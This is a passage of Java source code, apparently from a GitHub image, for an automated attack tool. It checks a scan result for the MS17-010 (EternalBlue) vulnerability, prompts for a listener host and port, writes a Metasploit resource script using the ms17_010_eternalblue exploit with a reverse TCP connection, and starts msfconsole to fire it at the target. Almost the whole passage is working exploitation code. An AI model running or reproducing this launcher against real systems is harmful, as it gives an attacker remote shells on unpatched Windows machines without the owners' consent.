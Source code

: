 ```java
            try (BufferedReader reader = new BufferedReader(new FileReader(scanName + "-enum-vuln.txt"))) {
                String line;
                while ((line = reader.readLine()) != null) {
                    if (line.contains("VULNERABLE:")) {
                        isVulnerable = true;
                        break;
                    }
                }
            } catch (IOException e) {
                e.printStackTrace();
            }

            if (isVulnerable) {
                System.out.println("MS17-010 vulnerability is detected.....");
                System.out.println("Preparing EXPLOIT config script...!");

                // Ask for LHOST and LPORT
                System.out.print("Enter the LHOST for reverse TCP connection: ");
                String lhost = scanner.nextLine();
                System.out.print("Enter the LPORT for reverse TCP connection: ");
                String lport = scanner.nextLine();

                // Create Metasploit config script
                String msf6Rc = scanName + ".rc";
                try (BufferedWriter writer = new BufferedWriter(new FileWriter(msf6Rc))) {
                    writer.write("use exploit/windows/smb/ms17_010_eternalblue\n");
                    writer.write("show options\n");
                    writer.write("set rhost " + ipAddress + "\n");
                    writer.write("set lhost " + lhost + "\n");
                    writer.write("set lport " + lport + "\n");
                    writer.write("clear\n");
                    writer.write("show options\n");
                    writer.write("sleep 5\n");
                    writer.write("clear\n");
                    writer.write("exploit\n");
                } catch (IOException e) {
                    e.printStackTrace();
                }

                System.out.println("Metasploit Auto-script is created =>=> " + msf6Rc);
                System.out.println("Starting msfconsole....");
                try {
                    new ProcessBuilder("msfconsole", "-q", "-r", msf6Rc).start();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            } else {
                System.out.println("MS17-010 vulnerability NOT detected, No Further action...");
                System.out.println("exiting...!");
            }
        } else {
            System.out.println("Port 445 is CLOSED...");
            System.out.println("Skipping Vulnerability scan...!");
        }

        scanner.close();
    }
}

```
